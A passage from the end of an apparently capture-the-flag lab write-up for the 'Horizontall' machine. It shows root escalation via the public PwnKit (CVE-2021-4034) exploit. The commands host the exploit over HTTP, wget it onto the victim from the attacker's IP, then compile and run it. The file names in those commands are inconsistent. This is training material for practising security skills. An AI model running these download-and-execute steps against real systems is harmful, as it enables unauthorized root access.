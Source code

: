 ```bash
# :):)
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_46.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I am going to try to exploit the `pkexec` binary, for that I download the **[berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034){:target="_blank"}** exploit, I download it in the victim machine in a directory where I have permissions to execute it (**tmp** or **dev/shm**). I had not noticed to see if `gcc` is installed on the machine, but I look for it and luckily it is. I compile the exploit and run it, and I escalate privileges to the **root** user.

> **[Watchguard](https://www.watchguard.com/es/wgrd-psirt/advisory/wgsa-2022-00001){:target="_blank"}**: On 25 January 2022, researchers at Qualys revealed a memory corruption vulnerability in Polkit’s **pkexec** tool, present in most major Linux distributions since 2009. An attacker with local access to a vulnerable system could exploit this vulnerability to elevate their privileges to root. Polkit (previously known as PolicyKit) is used for inter-process communication between privileged and non-privileged processes on Linux systems. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo). WatchGuard is currently reviewing all of its products and services and so far has determined that none of its products and services are vulnerable to CVE-2021-4034 (PwnKit).

```bash
git clone https://github.com/berdav/CVE-2021-4034
zip -r exploit.zip CVE-2021-4034
python3 -m http.server 80


# Victim Machine
wget http://10.10.14.6/compressed.zip
unzip exploit.zip
cd CVE-2021-4034/
make
./cve-2021-4034
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_49.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> Another box done, I am assimilating the concepts the more I practice. Now I kill the box and go for the next one.

```bash
./htbExplorer -k Horizontall
```
